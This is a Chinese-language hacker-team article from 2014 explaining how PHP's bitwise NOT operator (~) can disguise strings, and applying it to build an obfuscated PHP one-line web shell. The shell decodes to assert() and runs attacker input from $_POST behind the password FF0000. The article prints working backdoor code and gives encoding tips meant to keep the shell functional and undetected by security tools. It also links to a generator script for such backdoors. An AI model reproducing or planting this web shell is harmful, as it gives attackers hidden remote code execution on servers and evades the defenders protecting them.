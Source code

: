  

    .::PHP中使用按位取反(~)函数创建后门::.

    We enjoy hacking of life in day and night.

    _______________________________________________
				
    [+] Author: Evi1m0 <evi1m0.bat#gmail.com>
    [+] Team: FF0000 TEAM <http://www.ff0000.cc>
    [+] From: HackerSoul <http://www.hackersoul.com>
    [+] Create: 2014-02-04
    _______________________________________________


    -= Main =-

1）PHP ~位运算符
前一段时间老外在twitter上爆出个有趣的东西，一串疑似乱码的字符串访问后却能正常输出1337。

PHP: 位运算符

    http://www.php.net/manual/zh/language.operators.bitwise.php
    ~ $a        Not（按位取反）        将 $a 中为 0 的位设为 1，反之亦然

PHP 的 ini 设定 `error_reporting `使用了按位的值，提供了关闭某个位的真实例子。要显示除了提示级别之外的所有错误。
php.ini 中是这样用的： `E_ALL & ~E_NOTICE `
具体运作方式是先取得 E_ALL 的值：` 00000000000000000111011111111111 `
再取得 E_NOTICE 的值： `00000000000000000000000000001000 `
然后通过 ~ 将其取反：` 11111111111111111111111111110111 `
最后再用按位与 AND（&）得到两个值中都设定了（为 1）的位： `00000000000000000111011111110111`

2）分析并重现
这个就是当时最原始的代码实现效果：

![Alt text](./img/20140901-03.jpg)

当看到这个效果的时候最先想到的就是绕过防火墙等后门的实现，之后开始考虑这是哪种编码方式？
后来同李普君测试中发现直接使用echo ~'1';等则会直接输出以上的'乱码'。

![Alt text](./img/20140901-04.jpg)

    <?php
    $x=~Ÿ¬¬º­«;
    $x($_POST[~¹¹ÏÏÏÏ]);
    ?>

那么我们便可以开始写一句话试试效果了：

![Alt text](./img/20140901-05.jpg)

这里定义$x变量为ASSERT，然后密码为FF0000直接链接后门便可，因为当位取反出来'乱码'后我们再取一次反即可返回正常值。

3）关于编码与免杀
当重现这个后门的时候我发现，直接Copy过来的直接HTTP状态500，源头是编码问题，上面这种'乱码'其实为西欧（ISO-8859-15）。
实际过程中我们遇到了多次后门无法链接出现500的错误均势因为编码问题，如果默认编码无法识别将编码方式保存为这种即可（GBK\UTF8\...均不能成功使用）

![Alt text](./img/20140901-06.png)

4）留在最后
我们写了一个小脚本为了方便生成：http://www.hackersoul.com/tools/Createbackdoor-1.php
使用方法：`Createbackdoor-1.php?pwd=password`

url:http://hackersoul.com/post/PHP%E4%B8%AD%E4%BD%BF%E7%94%A8%E6%8C%89%E4%BD%8D%E5%8F%96%E5%8F%8D%E5%87%BD%E6%95%B0%E5%88%9B%E5%BB%BA%E5%90%8E%E9%97%A8.html
    -= END =- 